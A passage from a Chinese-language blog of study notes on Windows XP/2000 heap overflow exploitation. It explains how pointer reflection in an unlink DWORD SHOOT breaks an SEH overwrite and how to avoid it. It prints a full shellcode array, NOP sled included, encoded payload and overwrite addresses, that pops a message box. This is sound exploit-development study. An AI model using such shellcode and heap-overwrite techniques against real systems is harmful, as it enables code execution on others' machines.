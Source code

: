 ![Bildschirmfoto 2018-07-23 um 10.29.09 PM.png]({{ site.url }}/images/0day/66CA2A6BC830019BA04A6E039213FD13.png)

而所谓指针反射，是类似的情况：

![Bildschirmfoto 2018-07-23 um 10.45.41 PM.png]({{ site.url }}/images/0day/6B3163B3A1819BEAD6B41F130F96672B.png)

`node 1`是被我们控制并溢出的堆块。我们希望的是下方`0x7FFDE000`处四个字节被改为`0x0012FF4C`，但是注意！这个时候`0x0012FF4C + 4`的位置由于指针反射也被改为了`0x7FFDE000`！这在以前没有关系，但是在这里不可以，因为`SEH`链表中**一个节点内其异常处理函数的偏移也是4**！所以这个指针反射恰好把我们的shellcode的地址给覆盖掉了！如果`SEH`链表与之前的`VEH`链表一样，其中的异常处理函数偏移地址不是4而是8，那么指针反射就无所谓了。

具体情况可以看下面这个截图：

![Bildschirmfoto 2018-07-23 um 9.35.51 PM.png]({{ site.url }}/images/0day/8D20193515227289D190DF03F4814E1B.png)

上图正是`HeapAlloc`内的情况。可以看到右下方`0x0012FF50`处由于指针反射被覆盖为了`0x7FFDE000`。

那么如何解决这个问题呢？我在第五章已经思考过这个问题，也给出了解决方法，即：我们直接利用链表拆卸的第二个操作来完成DWORD SHOOT，示意图如下：

![Bildschirmfoto 2018-07-23 um 10.46.44 PM.png]({{ site.url }}/images/0day/48B7B9FDB9810F94F24939E2913BC990.png)

我们并不担心`0x0012FF4C`处被改写，因为它四个字节后的地方才是SEH节点异常处理函数的指针，而它并未被改写，同时`0x7FFDE000`处的值依然符合期望。这就够了。

所以最终的shellcode如下：

```c
char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x29\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
"\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7\x06\x34\x1f\x3e"
"\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14\xf7\xa2\xc0"
"\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd"
"\x0E\x01\x22\x00\x00\x01\x00\x00"
"\xFC\xDF\xFD\x7F"
"\x4C\xFF\x12\x00";
```

成功弹窗：

![Bildschirmfoto 2018-07-23 um 10.49.27 PM.png]({{ site.url }}/images/0day/8BAE97D49A07F7D827C64CAFBFB0A194.png)

攻击成功后，我再一次思考：“攻击TEB”这个实验我最初是在Win2000上完成的，后来发现XP上也可以。那么为什么XP上也可以？系统不去调用VEH吗？嗯，因为源代码中并没有注册VEH，系统当然不会调用。于是我恍然大悟，终于能够回答上一部分攻击VEH最后的遗留问题（可以翻回上一部分查看）。
